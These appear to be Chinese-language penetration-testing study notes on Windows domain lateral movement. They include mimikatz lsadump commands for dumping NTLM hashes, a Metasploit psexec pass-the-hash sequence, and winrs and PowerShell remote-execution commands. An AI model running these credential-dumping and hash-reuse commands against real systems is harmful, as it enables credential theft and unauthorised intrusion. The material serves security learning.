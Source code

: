 `lsadump模块`

```bash
//在域控上执行查看域 domain.com 内指定用户 root 详细信息，包括 NTLM 哈希
lsadump::dcsync /domain:domain.coim /user:root

//(在域控上执行) 读取所有域用户的哈希值
lsadump::lsa /patch

//直接从系统文件 sam.hive 和 system.hive 文件获取 NTLM Hash
lsadump::sam /sam:sam.hive /system:system.hive

## 拓展方法，从本地 SAM 文件读取密码哈希
token::elevate
lsadump::sam
```

### PTH Hash 传递

**PTH，即 Pass The Hash，首先我们来说下为什么要使用 Hash 传递，一是目标主机在 win server 2012 之后，lsass.exe 进程中是抓不到明文密码的；二是随着信息安全意识的提高，弱口令情况逐渐降低，我们经常会遇到拿到 hash 却解不开的情况，综上，只要我们获取到 hash，我们依然可以正常登录。**  
`Msf进行Hash传递获取域控`

```bash
proxychains msfconsole
use exploit/windows/smb/psexec
set smbdomain wwl
set rhosts 192.168.223.10
set smbuser administrator
set smbpass 00000000000000000000000000000000:afffeba176210fad4628f0524bfe1942
run
```

同时也可以了解一下 mimikatz 抓密码的原理，从这个原理中可以知道 windows 安全的一些机制。

【信息搜集】：学习内网信息搜集方式，关注哪些信息是敏感的（我是谁？我是否在域中？是否有内网？等）。

```bash
1.winrs
winrs -r:http://IP:5985 -u:.\administrator -p:admin123 "whoami" # 执行单条命令
winrs -r:http://IP:5985 -u:.\administrator -p:admin123 cmd # 返回交互式 cmd


2.powershell
单条命令

Invoke-Command -ComputerName server01 -Credential domain01\user01 -ScriptBlock {Get-Culture}
交互式

Enter-PSSession -ComputerName 192.168.100.155 -Credential administrator
需要输入主机账户密码
可以使用票据注入执行
```

要求：总结文章，尽可能全面  
【横 向】 ：学 习 PTH（哈 希 传 递 攻 击），以及 KB2871997 补丁对其造成的影响要求  
NTLM 认证采用质询/应答 (Challenge/Response) 的消息交换模式。NTLM 既可用于域环境下的身份认证，也可以用于没有域的工作组环境。主要有本地认证和网络认证两种方式
